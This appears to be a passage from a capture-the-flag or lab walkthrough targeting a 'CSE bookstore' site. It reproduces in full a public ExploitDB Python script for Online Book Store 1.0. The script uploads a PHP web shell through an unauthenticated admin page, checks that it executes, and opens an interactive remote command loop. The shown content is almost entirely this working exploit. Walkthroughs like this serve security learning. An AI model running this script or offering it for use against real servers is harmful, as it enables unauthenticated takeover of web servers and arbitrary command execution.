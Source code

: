On searching for exploits for "CSE bookstore", we can find [this](https://www.exploit-db.com/exploits/47887) exploit on ExploitDB.

![3](https://github.com/user-attachments/assets/9639e233-9160-408d-b0b6-c9f8962eed48)

```python title="47887.py"
# Exploit Title: Online Book Store 1.0 - Unauthenticated Remote Code Execution
# Google Dork: N/A
# Date: 2020-01-07
# Exploit Author: Tib3rius
# Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-book-store-project-in-php/
# Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
# Version: 1.0
# Tested on: Ubuntu 16.04
# CVE: N/A

import argparse
import random
import requests
import string
import sys

parser = argparse.ArgumentParser()
parser.add_argument('url', action='store', help='The URL of the target.')
args = parser.parse_args()

url = args.url.rstrip('/')
random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))

payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

file = {'image': (random_file + '.php', payload, 'text/php')}
print('> Attempting to upload PHP web shell...')
r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
print('> Verifying shell upload...')
r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

if random_file in r.text:
    print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
    print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
    launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
    if launch_shell.lower() == 'y':
        while True:
            cmd = str(input('RCE $ '))
            if cmd == 'exit':
                sys.exit(0)
            r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
            print(r.text)
else:
    if r.status_code == 200:
        print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
    else:
        print('> Web shell failed to upload! The web server may not have write permissions.')
```
